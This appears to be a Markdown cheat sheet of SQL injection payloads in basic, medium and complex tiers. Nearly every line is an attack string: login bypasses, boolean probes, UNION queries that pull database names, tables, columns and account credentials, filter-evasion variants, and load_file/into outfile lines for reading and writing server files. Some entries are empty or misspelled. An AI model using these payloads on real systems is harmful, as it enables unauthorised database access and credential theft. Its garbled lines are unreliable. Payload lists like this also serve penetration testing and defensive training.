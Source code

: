 ### Top SQL Injections:



1- >> ' OR 1=1 #

2- >> " OR 1=1 #

3- >> '  OR 1=1 ' LIMIT 1 #

4- >> "  OR 1=1 ' LIMIT 1 #

5- >> 





&nbsp;
&nbsp;
&nbsp;
---------------------------------------------------------------------------------------------------------------------------------------



### Summary:


__Basic__

>> __' OR 1=1 ;-- - __ 
    
>> __') OR 1=1; -- - __ 
   
>> __' and 'a '='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


>>  1' and 1=1 &nbsp;  | nbsp; True 


>>  1' and 1=0 &nbsp;  |  &nbsp; False 


>>  1' order by 1  &nbsp; |  &nbsp; True


>>  1' order by 10000 &nbsp; | &nbsp; False


>>  1 or db_name()=1); &nbsp;|  &nbsp;


>>  1 or db_name(0)=1) &nbsp; | &nbsp; increase the number until the database does not show any errors



>> 9999' UNION SELECT name,222,'else1' FROM master.syslogin; -- 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb |

